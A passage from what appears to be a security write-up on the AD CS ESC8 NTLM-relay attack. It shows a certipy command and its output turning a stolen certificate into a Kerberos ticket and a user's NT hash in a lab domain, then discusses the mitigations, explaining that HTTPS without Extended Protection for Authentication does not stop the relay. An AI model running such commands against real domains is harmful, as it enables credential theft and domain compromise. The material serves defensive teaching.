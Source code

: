 And similarly to before, we can obtain the NTLM hash of the user account by exchanging the certificate for a TGT:

```
certipy auth -pfx 'doros_archivon.pfx' -dc-ip '10.3.20.31'                        
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Doros_ARCHIVON@jess.kingdom'
[*] Using principal: 'doros_archivon@jess.kingdom'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'doros_archivon.ccache'
[*] Wrote credential cache to 'doros_archivon.ccache'
[*] Trying to retrieve NT hash for 'doros_archivon'
[*] Got hash for 'doros_archivon@jess.kingdom': aad3b435b51404eeaad3b435b51404ee:96b5326207a074816bdd447bc7784ad4
```

## Mitigations

In the breaking whitepaper by SpecterOps: [Certified Pre-Owned](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf). It is stated in `PREVENT8` that the following mitigations should be applied to prevent the exploitation of ESC8:

* Disable NTLM Authentication
* Enable HTTPS and Enable Extended Protection for Authentication (EPA)

In most environments, disabling NTLM authentication is not feasible, as it will break many legacy applications that rely on NTLM authentication.

### HTTPS + EPA

The second mitigation approach is more practical, however, many individuals incorrectly interpret the "and" requirement as an "or" option. It's important to recognize that simply implementing and enforcing `TLS` by itself will *not stop* ESC8 exploitation. `Extended Protection for Authentication (EPA)` is the security control that actually prevents relaying of NTLM authentication to the CA web endpoint.

Consider the following example, where the `PALACE-DC.jess.kingdom` CA web endpoint is configured to use `HTTPS` but does not have `EPA` enabled. This was configured with reference to the official documentation: [here](https://learn.microsoft.com/en-us/archive/technet-wiki/12039.active-directory-certificate-services-ad-cs-error-in-order-to-complete-certificate-enrollment-the-web-site-for-the-ca-must-be-configured-to-use-https-authentication)

![](./assets/img/sincon/85602aefecdf454d6e00f05aae6471bc.png)
